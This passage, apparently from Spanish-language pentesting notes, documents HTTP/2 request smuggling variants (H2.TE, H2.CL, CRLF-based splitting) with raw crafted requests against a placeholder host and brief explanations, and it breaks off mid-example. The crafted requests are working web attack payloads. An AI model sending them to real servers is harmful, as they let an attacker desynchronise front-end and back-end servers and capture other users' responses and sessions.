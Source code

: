 **Request2:**
```http
POST / HTTP/2
Host: domain.com
Transfer-Encoding: chunked
Content-Length: 88

0

GET / HTTP/1.1
Host: domain.com

```

**Explicacion:**
- Aprovechando que el **back-end** sigue procesando peticiones **`HTTP/1.1`** embebidas dentro de solicitudes **`HTTP/2`**, enviamos varias peticiones preparadas con un GET /x camuflado. Gracias a este desfase, logramos obtener la respuesta de otra sesión.
--- 
## **H2.CL**
**Request1:**
```http
POST / HTTP/2
Host: domain.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

test=testing
GET /error HTTP/1.1
Host: domain.com
Content-Length: 11

test=test
```

**Request2:**
```http
POST / HTTP/2
Host: domain.com
Content-Length: 0

GET /resources HTTP/1.1
Host: domain.com
Content-Length: 5

x=1
```

**Explicacion:**
- El **Front-end** Acepta **`HTTP2`** y confía en el `Content-Length`, le envio un `POST` **`HTTP2`** con body exacto y un `GET` **`HTTP/1.1`** embebido. El gateway consume *N* bytes como body y deja el `GET` smuggleado, que al reusar la conexión el **back-end** procesa primero, desincronizando respuestas.
-- -
## **H2RS via CRLF Injection**
![[Pasted image 20250819163452.png]]
**Request1:**
```http
POST / HTTP/2
Host: domain.com
Transfer-Encoding: chunked
Content-Length: 120

```